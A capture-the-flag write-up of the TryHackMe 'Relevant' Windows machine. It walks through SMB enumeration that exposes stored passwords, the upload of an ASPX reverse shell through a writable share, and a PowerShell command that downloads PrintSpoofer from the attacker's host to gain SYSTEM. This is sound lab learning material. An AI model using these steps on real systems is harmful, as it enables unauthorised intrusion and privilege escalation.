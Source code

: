```yaml
---
layout: solution
category: TryHackMe
contest_code: Offensive_Pentesting
contest_name: Offensive Pentesting
problem_code: RELEVANT
problem_name: Relevant
comments: false
tags: windows smb SeImpersonatePrivilege
date: 2022-02-02
---
```


### Rust Scan scanning tool was used to enumerate the running services on the server. From the ports that look open, it looks like this is a windows machine. This is confirmed with the Nmap results we got

### We can also see that web service is running on ports 80 and 49663

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Relevant/rustscan1.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Relevant/rustscan2.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Relevant/rustscan3.png)


‎

### I first moved on to SMB enumeration where I noticed I was able to access a drive that stored user passwords

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Relevant/smb_enum.png)

<p style="color:orange;">Viewing and decoding the passwords</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Relevant/passwords.png)


‎

### With the passwords I got, I tried to RDP my way through, but it failed which got me thinking about whether I was missing something. Then I tried to perform more enumeration using RPC which I found something interesting

### When tried for user Bill, it's giving me access denied. There is a possibility that user Bill doesn't exist. User Bob existed however it seems that I'm not getting any information when I'm supposed to

```
rpcclient -U "bill" 10.10.6.14
```

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Relevant/rpcclient.png)


‎

### In the end, I decided to use Pxexec. It then, help me confirm a few queries I had. User Bill does not exist

```
psexec bill@10.10.6.14
```

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Relevant/psexec1.png)

<p style="color:orange;">This path might be either a red herring or a honeypot infrastructure because I am unable to get a successful connection</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Relevant/psexec2.png)


‎

### I decided to look at the HTTP sites. On both ports 80 & 49663, they are showing me the same thing

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Relevant/web1.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Relevant/web2.png)


‎

### I decided to run Gobuster to retrieve hidden pages which got me something interesting. Seems like there is a path `nt4wrksv` on 49663 but not on port 80. This pathname is also the name of the accessible SMB Share

```
gobuster dir -t 100 -u http://10.10.6.14:49663 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Relevant/gobuster.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Relevant/gobuster_found.png)

<p style="color:orange;">I confirmed that this is an SMB share too because I was able to access passwords.txt</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Relevant/web_smb.png)


‎

### Since anonymous users have write permissions to the `nt4wrksv` SMB share, I used an ASPX shell which I found [here](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx). I uploaded it through SMB and executed it through the web server, giving me a reverse shell

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Relevant/smbclient.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Relevant/shell.png)


‎

### I did some enumeration by running `whoami /priv` and turns out SeImpersonatePrivilege is enabled

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Relevant/whoami.png)


‎

### I then attempted to use Juicy potato however it failed probably because DCOM is disabled or doesn't work for this OS version. More information can be found here on [Juicy Potato](https://ohpe.it/juicy-potato/)

### There is another exploit we can use called PrintSpoofer. It attempts to impersonate users using names Pipes. There is more in-depth detail on how this exploit works [here](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

### So I downloaded this tool and hosted it on my python webserver

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Relevant/python_web.png)

<p style="color:orange;">I then downloaded it on the vulnerable machine from the attacker's machine. When executed, I got System privileges </p>

```
powershell wget http://10.11.21.149:8000/PrintSpoofer.exe -Outfile PrintSpoofer.exe
PrintSpoofer.exe -i -c cmd.exe</p>
```

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Relevant/priv_escal.png)
